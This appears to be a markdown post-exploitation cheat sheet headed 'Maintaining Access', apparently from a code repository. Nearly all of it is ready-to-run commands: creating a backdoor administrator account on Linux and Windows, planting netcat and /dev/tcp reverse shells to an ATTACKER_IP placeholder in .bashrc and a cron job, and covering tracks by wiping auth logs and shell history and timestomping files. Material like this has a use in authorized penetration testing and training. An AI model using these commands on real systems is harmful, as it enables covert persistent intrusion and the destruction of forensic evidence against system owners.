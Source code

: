 # Maintaining Access

## Adding a Backdoor User

```bash
# Create a new user (Linux)
useradd -m -s /bin/bash backdoor
passwd backdoor

# Add user to sudo group
usermod -aG sudo backdoor

# Create a user in Windows
net user backdoor <PASSWORD> /add
net localgroup administrators backdoor /add
```

## Creating a Persistent Backdoor

```bash
# Using netcat for persistence (Linux)
echo "nc -e /bin/bash <ATTACKER_IP> <PORT> &" >> ~/.bashrc

# Using a cronjob
(crontab -l 2>/dev/null; echo "*/5 * * * * nc -e /bin/bash <ATTACKER_IP> <PORT>") | crontab -

# Backdooring .bashrc
echo '#!/bin/bash
bash -i >& /dev/tcp/<ATTACKER_IP>/<PORT> 0>&1' >> ~/.bashrc
```

## Covering Tracks

```bash
# Clear logs
echo "" > /var/log/auth.log
echo "" > ~/.bash_history

# Remove command history
history -c
export HISTSIZE=0

# Timestomp (Linux)
touch -r reference_file modified_file

# Hide processes
ps aux | grep <process_name>
kill -9 <process_id>
```
